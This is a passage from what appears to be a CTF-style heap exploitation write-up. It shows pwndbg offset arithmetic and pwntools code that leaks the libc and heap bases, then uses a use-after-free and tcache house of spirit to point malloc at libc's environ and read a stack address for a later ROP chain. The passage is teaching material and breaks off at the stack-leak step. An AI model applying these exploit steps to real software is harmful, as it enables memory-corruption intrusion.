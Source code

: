 Yes heap base looks correct.

Also while we are at the debugger we can calculate how far the libc leak is, from the actual base:

```
pwndbg> p/x 0x7571d081ace0-0x7571d0600000
$1 = 0x21ace0
```

Right, so here is the revised `get_leaks()` function:

```python
    def get_leaks():
        ...
        log.info('libc leak @ %s' % hex(leak))
        libc.address = leak - 0x21ace0 # Calculated with debugger
        log.success('libc base @ %s' % hex(libc.address))
        ...
```

Let's see if we get correct base now:

```
>>>
[*] libc leak @ 0x769df441ace0
[+] libc base @ 0x769df4200000


       =[ read ]=
index:
>>>
[+] heap base @ 0x60a73cb97000
```

yes we do. Let's proceed

---

But now what, we can use the libc base to accurately prepare a ROP chain but what about writing it? Where to write this ROP chain? Obvious after the stack frame of `main()` but we don't know where that is, *unless we have a stack leak as well*.

I don't know a way to get a stack leak directly from a UAF but from what I found by doing some research is that libc contains a variable called `environ` that holds a pointer to stack. If we can use tcache house of spirit to get malloc to return a pointer to environ, we can use the application's read functionality to read the stack leak.

Let's try it out:

```python
    get_leaks()
    update(0, p64( obfuscate(libc.sym.environ) ))
    create(0, 0x20, b'', 0x20, b'')

    data = read(0)
    data = data.split(b'val = ')[1].split(b'\\x00')[0].decode()
    stack_leak = custom_u64(data)
    log.info('stack leak @ %s' % hex(stack_leak))
```

